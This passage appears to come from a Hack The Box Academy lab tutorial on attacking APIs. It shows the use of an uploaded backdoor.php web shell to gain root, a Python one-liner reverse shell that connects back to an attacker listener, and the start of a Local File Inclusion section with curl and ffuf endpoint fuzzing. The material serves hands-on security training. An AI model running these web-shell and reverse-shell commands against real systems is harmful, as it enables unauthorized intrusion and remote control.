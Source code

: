 Use the script as follows.

```shell
python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes
$ id
uid=0(root) gid=0(root) groups=0(root)

```

To obtain a more functional (reverse) shell, execute the below inside the shell gained through the Python script above. Ensure that an active listener (such as Netcat) is in place before executing the below.

```shell
python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes
$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<VPN/TUN Adapter IP>",<LISTENER PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

```


# Local File Inclusion (LFI)

* * *

Local File Inclusion (LFI) is an attack that affects web applications and APIs alike. It allows an attacker to read internal files and sometimes execute code on the server via a series of ways, one being `Apache Log Poisoning`. Our [File Inclusion](https://academy.hackthebox.com/module/details/23) module covers LFI in detail.

Let us assess together an API that is vulnerable to Local File Inclusion.

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target API and follow along.

Suppose we are assessing such an API residing in `http://<TARGET IP>:3000/api`.

Let us first interact with it.

```shell
curl http://<TARGET IP>:3000/api
{"status":"UP"}

```

We don't see anything helpful except the indication that the API is up and running. Let us perform API endpoint fuzzing using _ffuf_ and the [common-api-endpoints-mazen160.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common-api-endpoints-mazen160.txt) list, as follows.

```shell
ffuf -w "/home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/common-api-endpoints-mazen160.txt" -u 'http://<TARGET IP>:3000/api/FUZZ'

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://<TARGET IP>:3000/api/FUZZ
 :: Wordlist         : FUZZ: /home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/common-api-endpoints-mazen160.txt
```